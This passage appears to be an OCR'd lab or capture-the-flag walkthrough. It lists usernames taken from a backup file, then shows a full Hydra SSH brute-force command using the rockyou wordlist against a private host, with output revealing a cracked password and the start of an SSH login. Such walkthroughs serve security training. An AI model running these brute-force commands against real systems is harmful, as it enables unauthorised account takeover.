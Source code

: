 100% |***********************************************************************| 31 5.07 KiB/s 00:00 ETA

226 Transfer complete.

31 bytes received in 00:00 (4.17 KiB/s)

cat users.txt.bk

abatchy

john

mai

anne

doomguy

hydra -t 5 -V -f -l anne -P /usr/share/wordlists/rockyou.txt 192.168.1.12 ssh

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra () starting at 2022-08-03 05:51:25

[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task

[DATA] attacking ssh://192.168.1.12:22/

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "123456" - 1 of 14344399 [child 0] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "12345" - 2 of 14344399 [child 1] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "123456789" - 3 of 14344399 [child 2] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "password" - 4 of 14344399 [child 3] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "princess" - 6 of 14344399 [child 1] (0/0)

[ATTEMPT] target 192.168.1.12 - login "anne" - pass "1234567" - 7 of 14344399 [child 3] (0/0)

[22][ssh] host: 192.168.1.12 login: anne password: princess

[STATUS] attack finished for 192.168.1.12 (valid pair found)

1 of 1 target successfully completed, 1 valid password found

Hydra () finished at 2022-08-03 05:51:39

ssh

The authenticity of host '192.168.1.12 (192.168.1.12)' can't be established.

ECDSA key fingerprint is SHA256:FhT9tr50Ps28yBw38pBWN+YEx5wCU/d8o1Ih22W4fyQ.

This key is not known by any other names

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '192.168.1.12' (ECDSA) to the list of known hosts.

